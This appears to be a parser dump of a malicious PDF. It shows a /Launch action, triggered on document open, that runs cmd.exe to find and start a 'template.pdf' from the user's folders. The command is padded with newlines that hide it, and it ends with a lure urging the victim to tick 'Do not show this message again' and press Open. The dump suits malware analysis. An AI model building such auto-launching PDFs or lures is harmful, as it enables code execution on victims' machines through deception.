 ```python
 Referencing:

  <<
    /S /Launch
    /Type /Action
    /Win
      <<
        /F (cmd.exe)
        /D '(c:\\\\windows\\\\system32)'
        /P '(/Q /C %HOMEDRIVE%&cd %HOMEPATH%&(if exist "Desktop\\\\template.pdf" (cd "Desktop"))&(if exist "My Documents\\\\template.pdf" (cd "My Documents"))&(if exist "Documents\\\\template.pdf" (cd "Documents"))&(if exist "Escritorio\\\\template.pdf" (cd "Escritorio"))&(if exist "Mis Documentos\\\\template.pdf" (cd "Mis Documentos"))&(start template.pdf)\n\n\n\n\n\n\n\n\n\nTo view the encrypted content please tick the "Do not show this message again" box and press Open.)'
      >>
  >>


obj 1 0
 Type: /Catalog
 Referencing: 2 0 R, 5 0 R, 9 0 R

  <<
    /Pages 2 0 R
    /Names 5 0 R
    /OpenAction 9 0 R
    /Type /Catalog
  >>


obj 3 0
 Type: /Page
 Referencing: 4 0 R, 2 0 R, 10 0 R

  <<
    /Contents 4 0 R
    /Parent 2 0 R
    /Resources
      <<
        /Font
          <<
            /F1
              <<
                /Type /Font
                /Subtype /Type1
                /BaseFont /Helvetica
                /Name /F1
              >>
          >>
      >>
    /Type /Page
    /MediaBox [ 0 0 795 842 ]
    /AA
      <<
        /O 10 0 R
      >>
  >>


xref

trailer
  <<
```